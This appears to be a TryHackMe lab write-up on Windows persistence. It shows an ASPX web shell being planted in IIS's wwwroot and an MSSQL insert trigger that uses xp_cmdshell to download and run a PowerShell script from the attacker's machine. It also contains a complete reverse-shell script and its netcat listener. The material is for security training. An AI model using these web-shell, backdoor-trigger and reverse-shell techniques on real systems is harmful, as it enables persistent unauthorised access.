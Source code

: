 # About This Module
Module link: https://tryhackme.com/room/windowslocalpersistence

**Please feel free to point out any errors that you may see in this writeup!**

This writeup was last updated: 07/06/2023

# Using Web Shells
1. Started this room's machine
2. `firefox <URL>` from our Linux attack machine to launch Firefox and redirect it to the ASP.NET web shell Github repository, which we'll then download onto our attack machine 
```Bash
root@ip-10-10-32-42:~# firefox https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Firefox%20cmdaspx.net%20Github.png)

3. `sudo python -m http.server` from our Linux attack machine to start a simple HTTP server on our attack machine to allow our compromised machine to connect back to our attack machine and download the ASP.NET web shell file that we just downloaded from Github
```Bash
root@ip-10-10-32-42:~# sudo python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```
4. `(New-Object System.Net.WebClient).Downloadfile('http://<ATTACK MACHINE IP>:8000/<ASPX.NET WEB SHELL FILE1>','<ASPX.NET WEB SHELL FILE2>.exe')` from our compromised Windows machine to download the ASP.NET web shell file from our attack machine and save it onto this machine with a different name
```PowerShell
PS C:\Users\Administrator> (New-Object System.Net.WebClient).Downloadfile('http://10.10.32.42:8000/cmdasp.aspx','shell.aspx')
```
5. `dir` from our compromised Windows machine to display the files and directories of our current working directory onto our terminal to verify if the ASP.NET web shell file was successfully downloaded from our attack machine, which it was
```PowerShell
PS C:\Users\Administrator> dir
    Directory: C:\Users\Administrator
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        3/17/2021   3:13 PM                3D Objects
d-r---        3/17/2021   3:13 PM                Contacts
d-r---         6/8/2022   4:40 AM                Desktop
d-r---        5/29/2022  12:07 AM                Documents
d-r---        5/29/2022  12:07 AM                Downloads
d-r---        3/17/2021   3:13 PM                Favorites
d-r---        3/17/2021   3:13 PM                Links
d-r---        3/17/2021   3:13 PM                Music
d-r---        3/17/2021   3:13 PM                Pictures
d-r---        3/17/2021   3:13 PM                Saved Games
d-r---        3/17/2021   3:13 PM                Searches
d-r---        3/17/2021   3:13 PM                Videos
-a----         7/7/2023   9:00 PM          20216 shell.aspx
```
6. `icacls <ASPX.NET WEB SHELL FILE PATH> /grant Everyone:F` from our compromised Windows machine to grant all the users in the system full access and control to the ASP.NET web shell file that we just downloaded from our attack machine
```PowerShell
PS C:\Users\Administrator> icacls shell.aspx /grant Everyone:F
processed file: shell.aspx
Successfully processed 1 files; Failed processing 0 files
```
7. `move <FILE> <DESTINATION PATH>` from our compromised Windows machine to move the <ASPX.NET WEB SHELL FILE2> web shell file to the **C:\inetpub\wwwroot** directory, which is the default directory where web content is stored for the IIS (Internet Information Services) web server, which is a web server software that was developed by Microsoft for Windows that provides the infrastructure and services necessary to host and manage websites, web applications, and other web services
```PowerShell
PS C:\Users\Administrator>move shell.aspx C:\inetpub\wwwroot\
        1 file(s) moved.
```
8. `explorer.exe "http://<TARGET IP>/shell.aspx"` from our compromised Windows machine to launch the Windows Explorer web browser and redirect it to our ASP.NET web shell, which brought us to a web shell that used to run commands on the system 
```PowerShell
PS C:\Users\Administrator> explorer.exe http://10.10.219.169/shell.aspx
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/ASPX.NET%20Web%20Shell%20Open.png)

9. `C:\flags\flag16.exe` from our compromised Windows machine's web shell to run the **flag16.exe**  

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/ASPX.NET%20Web%20Shell%20Flag.png)

# Using MSSQL as a Backdoor
1. Started this room's machine
2. Search for **Microsoft SQL Server Management Studio 18** and launch it

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Search.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Launch%20pt2.png)

3. Launch and execute the following four queries:

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Launch%20pt.3.png)

```SQL
sp_configure 'Show Advanced Options',1;
RECONFIGURE;
GO

sp_configure 'xp_cmdshell',1;
RECONFIGURE;
GO
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Query%201.png)

```SQL
USE master

GRANT IMPERSONATE ON LOGIN::sa to [Public];
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Query%202.png)

```SQL
USE HRDB
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Query%203.png)

```SQL
CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees 
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://<ATTACK MACHINE IP>:8000/<POWERSHELL SCRIPT>.ps1'')"';
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Query%204.png)

4. `mousepad <POWERSHELL SCRIPT>.ps1` and
```PowerShell
$client = New-Object System.Net.Sockets.TCPClient("<ATTACK MACHINE IP>",<PORT NUMBER>);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};
$client.Close()
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Creating%20evilscript.ps1.png)

5. `nc -lvnp <PORT NUMBER>`
```Bash
root@ip-10-10-32-42:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```
6. `sudo python -m http.server`
```Bash
root@ip-10-10-32-42:~# sudo python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
7. `explorer.exe http://<TARGET IP>/`
```PowerShell
C:\Users\Administrator>explorer.exe "http://10.10.138.69/"
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Insert%20Data%20pt1.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/MSSQL%20Insert%20Data%20pt2.png)

```Bash
root@ip-10-10-32-42:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.138.69 49758 received!
```

8. `C:\flags\flag17.exe`
```PowerShell
PS C:\Windows\system32> C:\flags\flag17.exe
THM{I_LIVE_IN_YOUR_DATABASE}
```


**TASK COMPLETED!**
